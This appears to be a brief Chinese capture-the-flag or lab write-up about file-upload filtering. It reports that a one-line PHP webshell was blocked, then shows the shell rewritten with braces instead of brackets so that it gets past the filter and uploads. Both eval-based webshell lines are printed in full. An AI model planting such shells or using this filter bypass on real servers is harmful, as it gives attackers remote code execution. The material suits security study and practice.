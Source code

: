 同上题，只是上传短标签一句话木马失败

![image-20250523134031802](./assets/image-20250523134031802.png)

推测检测到了敏感字符

修改一句话木马

将[] 替换为 {}

```
<?php @eval($_POST["ra1n3"]);?>
```

```
<?php @eval($_POST{"ra1n3"});?>
```

成功上传